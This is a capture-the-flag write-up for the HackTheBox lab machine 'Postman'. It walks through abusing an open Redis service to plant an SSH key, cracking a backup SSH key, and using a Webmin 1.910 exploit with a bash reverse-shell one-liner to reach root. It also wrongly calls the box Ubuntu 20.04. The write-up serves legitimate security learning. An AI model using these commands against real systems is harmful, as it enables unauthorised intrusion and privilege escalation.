


# Postman: 10.10.10.160

## Hints

- Find a service with a port not in the top 1000 to poke at
- Manipulate that service to upload a file that will allow you to get remote access
- Pivot to another user by finding an encrypted file that can be cracked to get a password
- Privesc is all about finding and exploiting a service running as `root`

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
```

A little more interesting than most easy Linux boxes with port 10000 open and running MiniServ. Decided to run a full port scan to see if there was anything else:

```none
nmap -p- -oA logs/nmap-all 10.10.10.160
```

And there was! I barely ever run a full port scan unless I get stuck... so got some luck, and found port 6379 open as well.

```none
6379/tcp open  redis   Redis key-value store 4.0.9
```

As a summary, looks like we have an Ubuntu Bionic machine, aka version 20.04. There are also two web servers running, SSH, and a Redis server. This will be interesting as I have never tested a Redis service before.

## 80: Recon

Browsing to port 80, we see a basic website that is still under construction.


There are a couple of references to `postman@htb`, so it makes sense to put `postman.htb` and `postman` in our `/etc/hosts` file. After making the entry, browsing to `postman.htb` takes us to the same website. Started running a `gobuster` against the site in the background, but nothing interesting was returned, so started looking elsewhere.

## 10000: Recon

Browsing to port 10000 gives us a basic, but custom error.



Since we have already added the host file entry, I just clicked the URL provided. Got a warning about the self-signed SSL cert. Looking at the cert there is not much apart from the username `root@Postman` being used and that the organization is: `Webmin Webserver on Postman`. This is the same result that `nmap` told us, the Webmin httpd that was running on port 10000.



To continue they want a username-password combination. We have a potential username of `root`, but I am not feeling lucky about running Hydra against this, and seem to remember that Webmin has protection against log-in form attacks. There is also a generic error message for login errors, so it is not possible to tell if the username is valid or not.

## 6379: Recon

The `nmap` scan reported that "Redis key-value store 4.0.9" was running on port 6379. I have used Redis a couple of times, but never in an engagement or CTF, and don't know much about it. I had a little look over the [HackTricks 6379 - Pentesting Redis page](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to get me started.

> Redis is a text based protocol, you can just send the command in a socket and the returned values will be readable. Also remember that Redis can run using ssl/tls (but this is very weird).

I tried the following `nmap` scan with a script called `redis-info` but got an error.

```none
nmap --script redis-info -sV -p 6379 postman.htb
```

Since `nmap` errored out,  I switched to manual enumeration and try to learn more from the process. Based on the advice from HackTricks, I installed the the `redis-tools` package:

```none
sudo apt-get install redis-tools
```

Then connected to the service:

```none
redis-cli -h 10.10.10.160
```

And started by running the `info` command:

```none
10.10.10.160:6379> info
```

This showed lots of information about the service including version, host OS kernel, executable path, uptime, connected clients, memory usage, stats, and replication. At this point, I was quite sure that we are not authenticated and can only run limited commands. Since I was new to Redis, this [Redis Cheat Sheet](https://lzone.de/cheat-sheet/Redis) was really useful to see all the commands that could be run.

Currently, there are no keys available:

```none
10.10.10.160:6379> keys *
(empty array)
```

But maybe we could create one! There are some RCE methods in the HackTricks article on Redis. The first one is a web shell. Looking at this method, requires us to set a directory, create a file, then add contents. Anything we upload must be in a place that the Redis user can write to and that the webserver can execute - such as PHP file in the webroot. Luckily, Redis will inform us if a directory exists and if we can write to it:

```none
10.10.10.160:6379> config set dir /var/webmin/
(error) ERR Changing directory: Permission denied
```

In this example, thought of setting the folder to the Webmin folder with the idea of uploading a reverse shell - but we do not have permission. If we use `/var/www/html` here, no code will execute - or so I am guessing as it was a static site. So this web shell option looks unlikely based on the current configuration.

The next option on HackTricks is to upload a crafted SSH public key, which would allow logging in as the Redis user. This seems more likely, as we can probably write to the Redis home folder as it is a specific Redis folder and we are executing commands are Redis. A quick check confirms this:

```none
10.10.10.160:6379> config set dir /var/lib/redis
OK
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
```

The idea that I get from the HackTricks article is we upload an `authorized_keys` file with our public key to this folder, then SSH in using the corresponding private key we created. Time to create a key!

```none
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/thomas/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:qfryr7pzOw21LAso/NZRZEsX173texPS2FYnbI7Do8U thomas@kali
The key's randomart image is:
+---[RSA 3072]----+
|         .... .  |
|       + ..  . . |
|      + o    .  o|
|       o..    +.+|
|.  .  .oS. o ++oo|
|... ..o.o   Eo.=.|
| .. ..o=   o oo o|
|   ooo+ . .    o.|
|  . +O==.       o|
+----[SHA256]-----+
```

Next, we need to put some blank space around the public key. After finishing the box, I realized this was because the file Redis created has some other "junk" in it, so the new lines make sure the `authorized_keys` file is valid.

```none
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

Next, we can upload this public key to Redis. We use the `-x` flag which reads in data from STDIN, which is our public key! Then use the `set` command to put the STDIN public key into a Redis "key" called `ssh_key`.

```none
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
```

If we go back to the `redis-cli` connection we can verify the Redis key has been made and contains our SSH key!

```none
10.10.10.160:6379> keys *
1) "ssh_key"
10.10.10.160:6379> dump ssh_key
"\x00B;\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1xJRO7+6fwG0R88cwqxQz1zPKY+zGYIZ4IfECI+9jhNsUgCwvfBFZP8P5X8K3rW+raqDML+4VWVP6xWuZid1Md5swvWviv1t3zSXXQiRqnxw36hGlAqe4a6uuiPYWoShKISeX7/7lqqywBChxIEtNZRee0dU3zhahOKrxUcal1gPGUMQBQ9yJ8+/ktJj+3AKY0J9OmAQJ8kfk7Ca7tqsK350QaV1Mye5o/s1fZLHdAtHFKr64mL4SNUoDoU17U2QJgczVxM9O7CgOxKmfwiCYNSS7FCXIt08AHmKY39fqvmAmKE1SXLIi89ywKCU+qsXA0NRq8/8VdZTfqjOsskKTKadVAtiuZEqpx6XKAbkUh2lTzay63WOnTZFOyQdW3IkeM6a9LQXs2PqSaAC0pQqUfuj2rL7hXx94ohQWfH6SCuakzQxfynYlykeijRKJZGiCEv2Tu5xP9526reJ23hnf45Bb1j0wOxZkKnAW8s/PsQG4R7HkAbAQ97xxvDRidYk= thomas@kali\n\n\n\n\b\x00(\xfa}\xc3\xdb\xbbx\x1e"
```

I thought the next part was pretty cool. We set a specific directory (the Redis `.ssh` folder) and save all (AFAIK) the Redis keys into a file, including our public key. We already know the place to save the file (`/var/lib/redis/.ssh`), and the name to call it (`authorized_keys`).

```none
┌──(thomas㉿kali)-[/media/share/postman/files]
└─$ redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

Now we should be able to SSH into the machine using our corresponding `id_rsa` private key.

```none
└─$ ssh -i id_rsa redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
redis@Postman:~$ pwd
/var/lib/redis
```

Success!

## Privesc: `redis` to `Matt`

Opened up two SSH sessions, one for auto enumeration tools and one for manual enumeration. I ran linpeas in one, while manually poking around the other. Looking at the users on the system, we probably want to move laterally to the `Matt` user.

```none
redis@Postman:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

Turns out I had the wrong Webmin directory which is at `/usr/share/webmin` - but the Redis user doesn't have write access there anyway. I didn't find much else from the manual enumeration, but linpeas found an encrypted SSH key in `/opt` called `id_rsa.bak`. So I attempted to crack it.

Started by downloading the `ssh2john.py` script to extract the hash.

```none
wget https://github.com/openwall/john/raw/bleeding-jumbo/run/ssh2john.py
```

Then extracted the hash.

```none
python3 ssh2john.py id_rsa > id_rsa_hash
```

Then ran John against the hash.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
1g 0:00:00:27 DONE (2021-09-04 18:21) 0.03703g/s 531174p/s 531174c/s 531174C/s *7¡Vamos!
Session completed
```

This got us the password `computer2008`

I tried logging in via SSH, but couldn't. I tried with the private key and with just the password, no luck. But I could switch users!

```none
redis@Postman:/opt$ su - Matt
Password: 
Matt@Postman:~$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
Matt@Postman:~$ wc -c user.txt 
33 user.txt
```

Success! The user flag!

I was wondering why I couldn't SSH in as Matt, maybe a different SSH key was configured, or SSH was not allowing password logins. However, it turned out that Matt was denied from SSHing into the box.

```none
redis@Postman:/opt$ cat /etc/ssh/sshd_config | grep DenyUsers
DenyUsers Matt
```

## Privesc: `Matt` to `root`

Started with the usual linpeas scan of the system as the Matt user. Not going to lie, had to look up a hint for this part. I tried to keep it to a minimum hint because I was enjoying this machine. I got a nudge from a colleague that I should look at Webmin.

```none
Matt@Postman:~$ ps faux | grep webmin
Matt      21665  0.0  0.1  14428  1052 pts/0    S+   23:43   0:00                      \_ grep --color=auto webmin
root        728  0.0  3.1  95308 29348 ?        Ss   22:16   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```

Looking at the Webmin process, it is running as `root`. If we can exploit it, somehow we could get `root` access. Webmin is installed in `/usr/share/webmin` so I went and had a look at it. I started by trying to find a version.

```none
Matt@Postman:/usr/share/webmin$ cat README | grep -i version
Webmin Version 1.910
The web server and all CGI programs are written in Perl version 5, and use
system. The Windows version depends on several programs and modules that may
```

The [Webmin changelog](https://www.webmin.com/changes.html) reported that version 1.910 was released in May 2019 - which isn't too out of date. The next step was to look for any exploits.

```none
└─$ searchsploit webmin 1.910
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)            | linux/remote/46984.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                     | linux/webapps/47330.rb
---------------------------------------------------------------------------------- ---------------------------------
```

It looks like there is an exploit specifically for the version we are targeting. I had a look at the Metasploit script to get more of an idea about the exploit. The key part was:

> Any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges.

So we need authenticated access. I hadn't looked at Webmin since the start of this box when I had no creds. I went back to the Webmin login and tried the creds I knew:

- Username: `Matt`
- Password: `computer2008`

And we get access!


Having a quick poke around the web app, it looks like we have the ability to update software packages - which correlates to the exploit that leverages this same permission. I started to look at the Metasploit module. Even though a non-metasploit exploit is not listed, I did a little search for one. I quickly found the [CVE-2019-12840_POC](https://github.com/bkaraceylan/CVE-2019-12840_POC) repo with a Python 3 script.

Started by downloading the script:

```none
wget https://raw.githubusercontent.com/bkaraceylan/CVE-2019-12840_POC/master/exploit.py
```

Then run it with the required arguments. There is an option to put in a command. I choose the well-known bash reverse shell and configured a netcat listener on my machine. This was after a little trial and error!

```none
└─$ python3 exploit.py -u https://postman -p 10000 -U Matt -P computer2008 -c 'bash -i >& /dev/tcp/10.10.14.24/9001 0>&1'
[*] Attempting to login...
[*] Exploiting...
[*] Executing payload...
```

Success a reverse shell!

```none
└─$ nc -lvnp 9001           
listening on [any] 9001 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.160] 49912
bash: cannot set terminal process group (728): Inappropriate ioctl for device
bash: no job control in this shell
root@Postman:/usr/share/webmin/package-updates/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Postman:/usr/share/webmin/package-updates/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
```

Done!

## Lessons Learned

- Don't start relying on linpeas to always have the answers!
- Remember to look for processes running as `root` that shouldn't be
- Get better at enumerating versions for **all** likely services

## Useful Resources

- [HackTheBox - Postman by ippsec](https://www.youtube.com/watch?v=jJnHET1o8ZQ)
- [HTB: Postman by 0xdf](https://0xdf.gitlab.io/2020/03/14/htb-postman.html)
